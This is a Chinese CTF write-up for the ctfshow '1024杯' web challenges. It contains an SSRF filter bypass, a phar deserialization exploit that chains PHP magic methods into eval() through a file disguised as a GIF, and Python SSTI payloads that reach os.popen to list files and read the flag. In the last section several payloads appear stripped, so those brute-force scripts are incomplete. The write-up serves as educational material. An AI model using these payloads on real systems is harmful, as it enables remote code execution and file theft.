







---
title: "ctfshow1024杯"
date: 2025-03-29T00:11:38+08:00
summary: "ctfshow1024杯"
url: "/posts/ctfshow1024杯/"
categories:
  - "ctfshow"
tags:
  - "1024杯"
draft: false
---

# 1024_WEB签到

## #签到

```php
error_reporting(0);
highlight_file(__FILE__);
call_user_func($_GET['f']);
```

动态函数调用，而且是无参数的函数

```
?f=phpinfo
```



一开始没什么头绪，就翻了一下php配置，看到里面有一个function


调用这个函数就能拿到flag了

```
?f=ctfshow_1024
```

# 1024_柏拉图

## #SSRF+phar反序列化



口子挺多的，先常规转一圈看看,在index.php中有一个url参数，传入1后有回显

```
难道我不知道你在想什么？除非绕过我？！
```

提示很明显了，这里可以绕过，可是这里是干什么的呢？根据url参数来看这里应该是获取其他网站的资源用的，猜测存在SSRF，那我们用file协议读取一下本地的文件，看看能不能获取到源码

file协议被过滤了，用双写去绕过

```
?url=filefile://:///var/www/html/index.php
```



```php
//index.php
function curl($url){  
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    echo curl_exec($ch);
    curl_close($ch);
}
if(isset($_GET['url'])){
    $url = $_GET['url'];
    $bad = 'file://';
    if(preg_match('/dict|127|localhost|sftp|Gopherus|http|\.\.\/|flag|[0-9]/is', $url,$match))
		{
			die('难道我不知道你在想什么？除非绕过我？！');
    }else{
      $url=str_replace($bad,"",$url);
      curl($url);
    }
}
```

```php
//upload.php
error_reporting(0);
if(isset($_FILES["file"])){
if (($_FILES["file"]["type"]=="image/gif")&&(substr($_FILES["file"]["name"], strrpos($_FILES["file"]["name"], '.')+1))== 'gif') {

    if (file_exists("upload/" . $_FILES["file"]["name"])){
      echo $_FILES["file"]["name"] . " 文件已经存在啦！";
    }else{
      move_uploaded_file($_FILES["file"]["tmp_name"],"upload/" .$_FILES["file"]["name"]);
      echo "文件存储在: " . "upload/" . $_FILES["file"]["name"];
    }
}else{
      echo "这个文件我不喜欢，我喜欢一个gif的文件";
    }
}
```

```php
//readfile.php
include('class.php');
function check($filename){  
    if (preg_match("/^phar|^smtp|^dict|^zip|file|etc|root|filter|\.\.\//i",$filename)){
        die("姿势太简单啦，来一点骚的？！");
    }else{
        return 0;
    }
}
if(isset($_GET['filename'])){
    $file=$_GET['filename'];
        if(strstr($file, "flag") || check($file) || strstr($file, "php")) {
            die("这么简单的获得不可能吧？！");
        }
        echo readfile($file);
}
```

```php
//unlink.php
error_reporting(0);
$file=$_GET['filename'];
function check($file){  
  if (preg_match("/\.\.\//i",$file)){
      die("你想干什么？！");
  }else{
      return $file;
  }
}
if(file_exists("upload/".$file)){
      if(unlink("upload/".check($file))){
          echo "删除".$file."成功！";
      }else{
          echo "删除".$file."失败！";
      }
}else{
    echo '要删除的文件不存在！';
}
```

一开始以为是打文件上传的后缀名绕过，但是好像这里也打不了上传文件的，看wp发现漏读了文件class.php

```php
//class.php
<?php
error_reporting(0);
class A {
    public $a;
    public function __construct($a)
    {
        $this->a = $a;
    }
    public function __destruct()
    {
        echo "THI IS CTFSHOW".$this->a;
    }
}
class B {
    public $b;
    public function __construct($b)
    {
        $this->b = $b;
    }
    public function __toString()
    {
        return ($this->b)();
    }
}
class C{
    public $c;
    public function __construct($c)
    {
        $this->c = $c;
    }
    public function __invoke()
    {
        return eval($this->c);
    }
}
?>
```

readfile.php中过滤的比较死，很多伪协议都不能用，但是能用phar协议，然后结合class.php中的内容，猜测是phar反序列化

php一大部分的文件系统函数在通过`phar://`伪协议解析phar文件时，都会将meta-data进行反序列化，例如这个题目中的readfile函数，那我们先看class.php写poc链

```
A::__destruct()->B::__toString()->C::__invoke()
```

exp

```php
//class.php
<?php
error_reporting(0);
class A {
    public $a;
}
class B {
    public $b;
}
class C{
    public $c;
}
$a = new A();
$a->a = new B();
$a->a->b = new C();
$a->a->b->c='phpinfo();';
```

然后打包phar文件

```php
//class.php
<?php
error_reporting(0);
class A {
    public $a;
}
class B {
    public $b;
}
class C{
    public $c;
}
$a = new A();
$a->a = new B();
$a->a->b = new C();
$a->a->b->c='phpinfo();';
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($a);
$phar->addFromString("1.txt","1");
$phar->stopBuffering();
?>
```

运行后将生成的phar文件修改后缀为.gif然后伪造MIME类型并上传





在读取文件的页面下

```php
    if (preg_match("/^phar|^smtp|^dict|^zip|file|etc|root|filter|\.\.\//i",$filename)){
        die("姿势太简单啦，来一点骚的？！");
```

禁用了phar前缀，当环境限制了phar不能出现在前面的字符里。可以使用`compress.bzip2://`和`compress.zlib://`等绕过

所以我们传参

```
compress.zlib://phar://upload/phar.gif
```



成功反序列化并执行，改一下exp的内容然后拿flag就行



# 1024_fastapi

## #SSTI

FastAPI是基于python3.6+和标准python类型的一个现代化的，快速的(高性能),构建api的web框架。

```
{"hello":"fastapi"}
```

页面只有这个，目录扫出来三个路径

```
[15:04:44] 200 -   974B - /docs
[15:04:53] 200 -    1KB - /openapi.json
[15:04:57] 200 -   767B - /redoc
```

访问openapi.json得到**OpenAPI 3.0**的自带交互式API文档

```
{
  "openapi": "3.0.2",
  "info": {
    "title": "FastAPI",
    "version": "0.1.0"
  },
  "paths": {
    "/": {
      "get": {
        "summary": "Hello",
        "operationId": "hello__get",
        "responses": {
          "200": {
            "description": "Successful Response",
            "content": {
              "application/json": {
                "schema": {

                }
              }
            }
          }
        }
      }
    },
    "/cccalccc": {
      "post": {
        "summary": "Calc",
        "description": "安全的计算器",
        "operationId": "calc_cccalccc_post",
        "requestBody": {
          "content": {
            "application/x-www-form-urlencoded": {
              "schema": {
                "$ref": "#/components/schemas/Body_calc_cccalccc_post"
              }
            }
          },
          "required": true
        },
        "responses": {
          "200": {
            "description": "Successful Response",
            "content": {
              "application/json": {
                "schema": {

                }
              }
            }
          },
          "422": {
            "description": "Validation Error",
            "content": {
              "application/json": {
                "schema": {
                  "$ref": "#/components/schemas/HTTPValidationError"
                }
              }
            }
          }
        }
      }
    }
  },
  "components": {
    "schemas": {
      "Body_calc_cccalccc_post": {
        "title": "Body_calc_cccalccc_post",
        "required": [
          "q"
        ],
        "type": "object",
        "properties": {
          "q": {
            "title": "Q",
            "type": "string"
          }
        }
      },
      "HTTPValidationError": {
        "title": "HTTPValidationError",
        "type": "object",
        "properties": {
          "detail": {
            "title": "Detail",
            "type": "array",
            "items": {
              "$ref": "#/components/schemas/ValidationError"
            }
          }
        }
      },
      "ValidationError": {
        "title": "ValidationError",
        "required": [
          "loc",
          "msg",
          "type"
        ],
        "type": "object",
        "properties": {
          "loc": {
            "title": "Location",
            "type": "array",
            "items": {
              "type": "string"
            }
          },
          "msg": {
            "title": "Message",
            "type": "string"
          },
          "type": {
            "title": "Error Type",
            "type": "string"
          }
        }
      }
    }
  }
}
```

有一个Hello的测试接口和/cccalccc接口，/cccalccc接口是一个安全计算器，里面有一个q参数，了解了一下fastapi得知它具有方便的api文档/redoc和/docs，然后我们访问/docs并进行测试

python的ssti，尝试一下

```
q=[].__class__		#Internal Server Error
```

FastAPI 默认用 JSON 返回，但 `type` 对象不可 JSON 序列化，需要用str()转化

`str()` 将结果转为字符串
即使 `[].__class__` 是 `type` 对象，`str()` 会转换为可序列化的字符串 `"<class 'list'>"`，因此能正常返回。

```
q=str([].__class__)	#{"res":"<class 'list'>","err":false}
q=str([].__class__.__base__.__subclasses__()[127]) #{"res":"<class 'os._wrap_close'>","err":false}
q=str([].__class__.__base__.__subclasses__()[127].__init__.__globals__['popen'])#{"res":"hack out!","err":false}
```

估计是不让用popen，用字符串拼接绕过一下

```
q=str(''.__class__.__base__.__subclasses__()[127].__init__.__globals__['po'+'pen']('ls ').read())#{"res":"main.py\nstart.sh\n","err":false}
```

读一下main.py

```
{
  "res": "from typing import Optional\nfrom fastapi import FastAPI,Form\nimport uvicorn\n\napp = FastAPI()\n\n@app.get(\"/\")\ndef hello():\n    return {\"hello\": \"fastapi\"}\n\n@app.post(\"/cccalccc\",description=\"安全的计算器\")\ndef calc(q: Optional[str] = Form(...)):\n    try:\n        hint = \"flag is in /mnt/f1a9,try to read it\"\n        block_list = ['import','open','eval','exec']\n        for keyword in block_list:\n            if keyword in q:\n                return {\"res\": \"hack out!\", \"err\": False}\n        return {\"res\": eval(q), \"err\": False}\n    except:\n        return {\"res\": \"\", \"err\": True}\n\nif __name__ == '__main__':\n    uvicorn.run(app=app, host=\"0.0.0.0\", port=8000, workers=1)\n",
  "err": false
}
```

有个提示

```
hint = \"flag is in /mnt/f1a9,try to read it
```

读flag就行

```
q=str(''.__class__.__base__.__subclasses__()[127].__init__.__globals__['po'+'pen']('cat /mnt/f1a9').read())
```

# 1024_hello_world

## #SSTI


post传一个key=1然后页面变成Hello,1!感觉也是ssti啊，测一下

```
key={{8*8}}#Hello,8*8!
key={8*8}#Hello,{8*8}!
```

估计是过滤了`{{}}`,用``print去进行绕过

```
key=#Hello,2!
```

可以确定存在ssti了

但是尝试后发现过滤了很多东西，需要一些绕过姿势。
过滤了的会报`500 Internal Server Error`。可以用if语句去测

```
key=air #500
key=air #Hello,air!
key=air#500
key=air#Hello,air!
```

下划线用unicode编码去绕过

```
key=
```

因为bp里比较难找,并没有直接的注入回显，所以我们需要利用自动化脚本去进行爆破。

```python
import requests

url = "http://44f6bdc3-3899-42b3-8cbf-91151294a663.challenge.ctf.show/"

for i in range(1,200):
    payload = 'air'
    #payload = "".__class_.__base__.__subclasses__()[?].__init__.__globals__["__builtins__"]["__import__"]("os")
    data = {
        "key" : payload
    }
    r = requests.post(url, data)
    # print(data)
    if "air" in r.text:
        # print(r.text)
        print(i)
```

运行后输出了64，直接用os模块去打就行

```python
import requests

url = "http://44f6bdc3-3899-42b3-8cbf-91151294a663.challenge.ctf.show/"
# cmd="ls /"
cmd="cat /*f*"

dic = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{-}'
flag = ""
for i in range(0,50):
    for s in dic:
        payload = 'air'
        data = {"key": payload}
        r = requests.post(url, data)
        # print(data)
        if "air" in r.text:
            print(r.text)
            flag += s
            print(flag)
    if '}' in flag:
        break

print(flag)
```

# 1024_图片代理
